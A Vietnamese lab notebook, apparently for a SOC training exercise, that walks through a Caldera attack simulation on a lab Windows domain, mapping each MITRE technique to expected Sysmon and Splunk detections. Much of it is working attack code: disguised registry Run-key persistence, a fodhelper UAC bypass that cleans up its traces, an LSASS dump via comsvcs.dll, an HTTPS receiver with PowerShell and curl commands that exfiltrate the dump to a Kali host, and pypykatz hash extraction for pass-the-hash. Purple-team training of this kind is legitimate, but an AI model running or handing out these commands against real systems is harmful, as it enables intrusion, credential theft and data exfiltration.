








### Giai đoạn 1: Xâm nhập ban đầu & Thực thi (Initial Access & Execution) {#3557b0eb61a48033bcc9eee52cd68938}


_Giả định: Nhân viên IT (WS1) bị lừa chạy file đính kèm email chứa mã PowerShell của Sandcat._


| **Step** | **Giai đoạn (Tactic)** | **Mã Kỹ Thuật** | **Tên Kỹ Thuật**               | **Hành động trong Lab (Procedure bằng Caldera)**                                                                                     | **Nguồn Log / Event ID kỳ vọng (Splunk)**                                                                                                                         |
| -------- | ---------------------- | --------------- | ------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1        | Initial Access         | T1204.002       | User Execution: Malicious File | User Jim truy cập web/email, tải file `paycheck.rar`, giải nén và click đúp vào file mồi nhử `paycheck.pdf.lnk`.                     | **pfSense / Suricata:** HTTP request tải file .rar.<br/>**Sysmon EID 1:** LNK kích hoạt `explorer.exe` gọi `powershell.exe`.                                      |
| 2        | Execution              | T1059.001       | PowerShell                     | Mã ẩn trong file LNK thực thi lệnh tải payload `sandcat.go` từ máy Kali (port 80) xuống thư mục `%TEMP%\winupdate.exe` và chạy ngầm. | **Sysmon EID 11:** File `winupdate.exe` được tạo.<br/>**Sysmon EID 1:** Tiến trình `winupdate.exe` khởi chạy.<br/>**WinEvent 4104:** Lưu lại toàn bộ mã tải file. |


### Giai đoạn 2: Bám rễ & Kết nối (Persistence & C2) {#3557b0eb61a480dbb787cc4ee237ede2}


_Mục tiêu: Thiết lập liên lạc qua mặt pfSense và đảm bảo Sandcat sống sót khi khởi động lại._


| **Step** | **Giai đoạn (Tactic)** | **Mã Kỹ Thuật** | **Tên Kỹ Thuật**  | **Hành động trong Lab (Procedure bằng Caldera)**                                                       | **Nguồn Log / Event ID kỳ vọng (Splunk)**                                                                                          |
| -------- | ---------------------- | --------------- | ----------------- | ------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------- |
| 3        | Command & Control      | T1071.001       | Web Protocols     | Tiến trình `winupdate.exe` trên WS01 liên tục gọi về Caldera Server (Kali) qua cổng 80 (Beaconing).    | **Suricata IDS / pfSense:** Cho phép traffic vì đi qua port 80.<br/>**Sysmon EID 3:** `winupdate.exe` liên tục kết nối ra IP Kali. |
| 4        | Persistence            | T1547.001       | Registry Run Keys | Caldera tự động ghi đường dẫn của `winupdate.exe` vào khóa Run trong Registry để tự chạy cùng Windows. | **Sysmon EID 12, 13, 14:** Hành vi tạo/sửa giá trị trong key `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`.                 |


### Giai đoạn 3: Leo quyền & Đánh cắp danh tính (PrivEsc & Credential Access) {#3557b0eb61a48035a501d5c66982270c}


_Mục tiêu: Khai thác lỗ hổng cấu hình dịch vụ cục bộ để lấy quyền cao nhất và trộm NTLM Hash._


| **Step** | **Giai đoạn (Tactic)** | **Mã Kỹ Thuật** | **Tên Kỹ Thuật**             | **Hành động trong Lab (Procedure bằng Caldera)**                                                                        | **Nguồn Log / Event ID kỳ vọng (Splunk)**                                                                                  |
| -------- | ---------------------- | --------------- | ---------------------------- | ----------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------- |
| 5        | Privilege Escalation   | T1548.002       | Bypass UAC                   | Dùng ability "Bypass UAC" trong Caldera để từ quyền User nhảy lên Administrator.                                        | **Sysmon EID 1**: Các tiến trình bypass UAC phổ biến (như `fodhelper.exe`, `computerdefaults.exe`).                        |
| 6        | Credential Access      | T1003.001       | OS Credential Dumping: LSASS | Sử dụng ability của Caldera (chạy Mimikatz/Procdump in-memory) để đọc tiến trình LSASS, lấy NTLM Hash của Domain Admin. | **Sysmon EID 10 (Process Access):** Tiến trình lạ (hoặc powershell) đòi quyền GrantedAccess 0x1010/0x1410 vào `lsass.exe`. |


### Giai đoạn 4: Lây lan & Thu thập (Lateral Movement & Collection) {#3557b0eb61a4804abfb6e94d7548c64a}


_Mục tiêu: Xác định mục tiêu quan trọng (DC01), chiếm quyền điều khiển và thu gom dữ liệu._


| **Step** | **Giai đoạn (Tactic)** | **Mã Kỹ Thuật** | **Tên Kỹ Thuật**                   | **Hành động trong Lab (Procedure bằng Caldera)**                                                                                | **Nguồn Log / Event ID kỳ vọng (Splunk)**                                                                                    |
| -------- | ---------------------- | --------------- | ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| 7        | Discovery              | T1135           | Network Share Discovery            | Đứng từ WS01, Caldera chạy tự động các lệnh `ping`, `nltest`, `net share` để quét hạ tầng và tìm thấy DC01 (10.10.10.10).       | **Sysmon EID 1:** Các lệnh `net.exe`, `ping.exe`, `nltest.exe` chạy liên tục trong thời gian ngắn.                           |
| 8        | Lateral Movement       | T1047           | Windows Management Instrumentation | Dùng Hash vừa trộm được (Pass-the-Hash), Caldera thực thi WMI/SMB để copy và kích hoạt Agent `winupdate.exe` trên máy chủ DC01. | **WinEvent 4624:** Logon Type 3 (Network) trên DC01.<br/>**Sysmon EID 1 (trên DC01):** `WmiPrvSE.exe` gọi tiến trình mã độc. |
| 9        | Collection             | T1039           | Data from Network Drive            | Agent trên DC01 quét các file nhạy cảm (.docx, .pdf) và nén chúng lại thành một file `backup.zip`.                              | **Sysmon EID 11 (trên DC01):** File `backup.zip` được tạo ra ở thư mục Temp hoặc Desktop.                                    |


### Giai đoạn 5: Tống tiền & Phá hoại (Exfiltration & Impact) {#3557b0eb61a480909ca3c075b8c628f5}


_Mục tiêu: Đưa dữ liệu ra ngoài và "kết liễu" hệ thống._


| **Step** | **Giai đoạn (Tactic)** | **Mã Kỹ Thuật** | **Tên Kỹ Thuật**          | **Hành động trong Lab (Procedure bằng Caldera)**                                                                                                  | **Nguồn Log / Event ID kỳ vọng (Splunk)**                                                                                                                              |
| -------- | ---------------------- | --------------- | ------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 10       | Exfiltration           | T1041           | Exfil Over C2 Channel     | File `backup.zip` được chia nhỏ và truyền ngược về máy Kali thông qua cổng 80 của đường hầm Caldera hiện tại.                                     | **Suricata IDS / Splunk Network Logs:** Cảnh báo lưu lượng Data Transfer (POST requests) dung lượng lớn bất thường ra ngoài.                                           |
| 11       | Impact                 | T1486           | Data Encrypted for Impact | Chạy ability Ransomware của Caldera: Xóa Shadow Copies chống khôi phục, đổi đuôi hàng loạt file thành `.encrypted` và để lại thông báo tống tiền. | **Sysmon EID 1:** Lệnh `vssadmin.exe delete shadows /all /quiet`.<br/>**Sysmon EID 11:** Khối lượng khổng lồ file bị xóa (Delete) và tạo mới (Create) với đuôi mã hóa. |


# 1. Initial access {#3557b0eb61a480c9aa38c0442890170e}


Trên ws01 người dùng jim lên mạng tải một file không rõ nguồn gốc về





# 2. Execution {#3557b0eb61a4806c93a6ddc347d2c095}


Sau khi người dùng nhấn thì agent đã kết nối về kali





# 3. Persistence {#3557b0eb61a480ddb518f28196b6837d}


### Chế tạo đòn Bám rễ (Registry Run Keys) trên Caldera {#3557b0eb61a4803f84d5d7dbdcff5cb2}


Tương tự như cách bạn tạo đòn đánh ở Giai đoạn 3, hãy làm các bước sau:

1. Trong menu Caldera, chọn **Campaigns** -&gt; **Abilities**.
2. Nhấn nút **+ Create Ability** ở góc trên bên phải.
3. Điền thông tin cho đòn đánh:
	- **Name:** `Persistence: Add to Registry Run Key`
	- **Description:** Ghi đường dẫn winupdate.exe vào khóa Run của CurrentUser để tự chạy khi đăng nhập.
	- **Tactic:** `persistence`
	- **Technique:** `T1547.001` (Registry Run Keys / Startup Folder)
4. Kéo xuống phần **Executors**, nhấn **+ Add Executor**, chọn Platform là **Windows** và Executor là **psh** (PowerShell).
5. Dán đoạn mã PowerShell sau vào ô **Command**:

	```c++
	# Đường dẫn kèm tham số khởi chạy ngầm của mã độc
	$payload = "$env:TEMP\winupdate.exe -server http://192.168.253.128:80 -group red";
	
	# Khóa Registry khởi động cùng Windows của User
	$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run";
	
	# Ghi giá trị vào Registry
	New-ItemProperty -Path $regPath -Name "WindowsUpdateManager" -Value $payload -PropertyType String -Force;
	
	Write-Host "Persistence established in HKCU Run key successfully.";
	```


	_Lưu ý: Tôi đặt tên giá trị (Name) là_ _`WindowsUpdateManager`_ _để ngụy trang cho khớp với cái tên_ _`winupdate.exe`_ _của file)._

6. Nhấn **Save**.




Caldera không chạy từng đòn lẻ tẻ một cách khơi khơi, nó chạy theo bộ.

1. Vào menu **Campaigns** -&gt; **Adversaries**.
2. Chọn **+ Add Adversary**. Đặt tên là `APT29_Persistence`.
3. Nhấn **+ Add Ability**, tìm tên đòn `Persistence: Add to Registry Run Key` bạn vừa tạo và add nó vào.
4. Nhấn **Save**.
5. 




### Bước 3: Khởi động chiến dịch (Operation) {#3557b0eb61a480ecb816d65629ccafec}


Đây mới là lúc lệnh PowerShell thực sự bay sang máy WS01:

1. Vào **Campaigns** -&gt; **Operations**.
2. Nhấn **Create Operation**.
3. **Name:** `RunKey_Deployment`.
4. **Adversary:** Chọn `APT29_Persistence` (bộ hồ sơ bạn vừa tạo ở bước 2).
5. **Keep finding neighbors:** Đảm bảo mục này được bật để nó tìm thấy Agent của Jim.
6. Nhấn **Start**.
7. 




# 4. Command & Control {#3557b0eb61a48053b832d827a537fffe}


# 5. Privilege Escalation {#3557b0eb61a48014aeb8d110a99b4bda}


Trên soc lab thì user jim được định sẵn là local Admin


### Bước 1: Tạo đòn UAC Bypass (T1548.002) {#3557b0eb61a48017ad8ee1500e70dc08}

1. Trên Caldera, vào **Abilities** -&gt; **+ Add Ability**.
2. Điền thông tin:
	- **Name:** `PrivEsc: Bypass UAC via Fodhelper`
	- **Tactic:** `privilege-escalation`
	- **Technique ID:** `T1548.002`
3. Thêm Executor là **psh** (PowerShell) cho Windows, dán mã sau vào ô Command:

```c++
# Tạo Registry key để lừa Fodhelper gọi mã độc của chúng ta
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force;
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force;

# Chỉ định đường dẫn tới Agent winupdate.exe đã nằm sẵn trên máy
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "$env:TEMP\winupdate.exe -server http://192.168.253.128:80 -group red" -Force;

# Gọi fodhelper.exe. File này có tính năng Auto-Elevate nên sẽ chạy mã độc của ta dưới quyền High Integrity (Admin)
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden;

# Dọn dẹp dấu vết sau 3 giây
Start-Sleep -s 3;
Remove-Item "HKCU:\Software\Classes\ms-settings" -Recurse -Force;
```





# 6. Credential Access {#3557b0eb61a480a3b28ddb52f30e7936}


### Bước 2: Tạo đòn Dump LSASS (T1003.001) {#3557b0eb61a48050b410c81e2f884080}


_Nếu bạn đã tạo đòn này ở hướng dẫn trước thì có thể bỏ qua._

1. Tạo Ability mới.
	- **Name:** `CredAccess: Dump LSASS via comsvcs.dll`
	- **Tactic:** `credential-access`
	- **Technique ID:** `T1003.001`
2. Thêm Executor **psh**, dán mã sau:

	```c++
	$lsass = Get-Process lsass;
	rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump $($lsass.Id) $env:TEMP\lsass.dmp full;
	Write-Host "LSASS dumped successfully to $env:TEMP\lsass.dmp";
	```





Thêm 2 abilities trên vào Adversaries





# Exfiltration 1 {#3557b0eb61a480629ff4ebec22f619d8}


### Bước 1: Thiết lập Server nhận HTTPS trên Kali Linux {#3557b0eb61a48060a951d5e71b46eb78}


Vì các Web Server thông thường (như `python -m http.server`) chỉ hỗ trợ tải xuống (GET), chúng ta cần một Script nhỏ để xử lý việc tải lên (POST) và hỗ trợ chứng chỉ SSL (HTTPS).

1. **Tạo chứng chỉ SSL tự ký (Self-signed certificate):**
Mở Terminal trên Kali và chạy lệnh sau để tạo chìa khóa mã hóa:Bash

	`cd ~/Downloads/loot
	openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes`


	_(Bạn cứ nhấn Enter qua các câu hỏi về thông tin quốc gia/tổ chức)._

2. **Tạo Script Python nhận file (****`https_receiver.py`****):**
Tạo một file mới tên `https_receiver.py` trong thư mục `Downloads/loot` với nội dung sau:Python

	`import http.server, ssl
	
	class SimpleHTTPRequestHandler(http.server.BaseHTTPRequestHandler):
	    def do_POST(self):
	        content_length = int(self.headers['Content-Length'])
	        file_data = self.rfile.read(content_length)
	        with open("lsass.dmp", "wb") as f:
	            f.write(file_data)
	        self.send_response(200)
	        self.end_headers()
	        self.wfile.write(b'File uploaded successfully!')
	
	server_address = ('0.0.0.0', 443)
	httpd = http.server.HTTPServer(server_address, SimpleHTTPRequestHandler)
	httpd.socket = ssl.wrap_socket(httpd.socket, certfile='./server.pem', server_side=True)
	print("Trạm thu nhận HTTPS đang đợi tại cổng 443...")
	httpd.serve_forever()`

3. **Chạy Server:**Bash

	`sudo python3 https_receiver.py`


---


### Bước 2: Đẩy file từ WS01 về Kali (Giai đoạn Exfiltration) {#3557b0eb61a4800da4bed1a7639e0aa3}


Tại giao diện **Caldera**, bạn hãy sử dụng Agent **Elevated** (`qgrhza`) để thực thi lệnh PowerShell. Chúng ta sẽ dùng `Invoke-WebRequest` để đẩy file lên.


**Lệnh thực thi (Manual Command - Executor: psh):**


PowerShell


`$file = "$env:TEMP\lsass.dmp";
$url = "https://192.168.253.128:443";
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
Invoke-WebRequest -Uri $url -Method Post -InFile $file;`


```c++
if (Test-Path "C:\Users\jim\AppData\Local\Temp\lsass.dmp") {
     curl.exe -X POST --data-binary "@C:\Users\jim\AppData\Local\Temp\lsass.dmp" https://192.168.253.128:443 -k
} else {
    Write-Host "File không tồn tại rồi sếp ơi!"
}
```

- **Dấu hiệu thành công:** Trên màn hình Kali sẽ hiện dòng `File uploaded successfully!`. Lúc này, file `lsass.dmp` đã nằm gọn trong thư mục `Downloads/loot` của bạn.

### Giai đoạn 2: Offline Cracking (Phân tích trên Kali) {#3557b0eb61a48049b7cdddec8802e930}


File dump của Windows là một mớ hỗn độn các byte nhớ. Để trích xuất được mật khẩu và Hash từ đó trên môi trường Linux, vũ khí số một của chúng ta là **pypykatz** (người anh em họ của Mimikatz được viết bằng Python).


**Bước 1: Cài đặt công cụ (Nếu Kali chưa có)**
Mở một tab Terminal mới và gõ lệnh:


Bash


`sudo apt update
sudo apt install pypykatz`


_(Nếu apt không tìm thấy, bạn có thể cài qua pip:_ _`pip3 install pypykatz`__)_


**Bước 2: Bắt đầu "Mổ xẻ"**
Đảm bảo bạn đang đứng ở thư mục `~/loot` (nơi chứa file lsass.dmp), chạy câu lệnh cực kỳ đơn giản này:


Bash


`pypykatz lsa minidump lsass.dmp`


**Bước 3: Đọc kết quả**
Màn hình của bạn sẽ tuôn ra một "cơn mưa" text. Đừng hoảng! Hãy cuộn chuột lên từ từ và chú ý vào các block thông tin có cấu trúc như sau:


Plaintext


`== Logon Session ==
Authentication Id : 0 ; 305886 (00000000:0004ab1e)
Session Id        : 1
Username          : jim
Domain            : SOCLAB
Logon Server      : SOCLAB-DC
Logon Time        : 2026-05-03T12:00:00.000000
SID               : S-1-5-21-...
...
    == MSV ==
    Username: jim
    Domain: SOCLAB
    LM: aad3b435b51404eeaad3b435b51404ee
    NT: 8846f7eaee8fb117ad06bdd830b7586c
    SHA1: ...`


**Mục tiêu của bạn là tìm:**

1. Tên **Username** (ví dụ: `jim`, `Administrator`, `cuong_nguyen`).
2. Chuỗi **NT** (Đây chính là **NTLM Hash** - Chìa khóa vạn năng của Windows).
3. Đôi khi ở phần `== Wdigest ==` hoặc `== TSPKG ==`, bạn còn có thể thấy nguyên mật khẩu chữ thường (Cleartext Password) hiện ra rành rành nếu hệ điều hành chưa được vá lỗi bảo mật Wdigest!

---


### Kịch bản tiếp theo (Giai đoạn 4) {#3557b0eb61a4802691dad1e5f2f5db44}


Khi bạn đã copy được chuỗi NTLM Hash (ví dụ: `8846f7eaee8fb117ad06bdd830b7586c`) của một user có quyền cao (như Domain Admin), bạn **không cần phải cố gắng giải mã (crack) nó**.


